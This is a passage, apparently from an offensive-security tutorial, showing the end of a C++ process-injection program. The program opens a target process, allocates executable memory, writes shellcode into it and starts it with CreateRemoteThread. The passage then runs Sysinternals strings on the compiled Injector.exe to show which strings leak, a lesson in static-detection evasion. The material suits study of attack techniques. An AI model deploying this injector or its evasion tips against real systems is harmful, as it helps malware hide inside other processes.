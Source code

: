 ```c

	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	cout << "Handle obtained for" << processHandle;
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	cout << "Buffer Created";
	WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
	cout << "Process written with buffer" << remoteBuffer;
	remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
	CloseHandle(processHandle);
	cout << "Closing handle" << processHandle;
	cout << leaked;

	return 0;
}
```
Let’s use strings to see exactly what was leaked when this source code is compiled.

```powershell
C:\>.\strings.exe "\Injector.exe"

Strings v2.54 - Search for ANSI and Unicode strings in binary images.
Copyright (C) 1999-2021 Mark Russinovich
Sysinternals - www.sysinternals.com

!This program cannot be run in DOS mode.
>FU
z';
z';
...
[snip]
...
Y_^[
leaked
shellcode
2_^[]
...
[snip]
...
std::_Adjust_manually_vector_aligned
"invalid argument"
string too long
This was leaked in the strings
Handle obtained for
Buffer Created
Process written with buffer
Closing handle
std::_Allocate_manually_vector_aligned
bad allocation
Stack around the variable '
...
[snip]
...
8@9H9T9X9\\9h9|9
:$:(:D:H:
@1p1
```
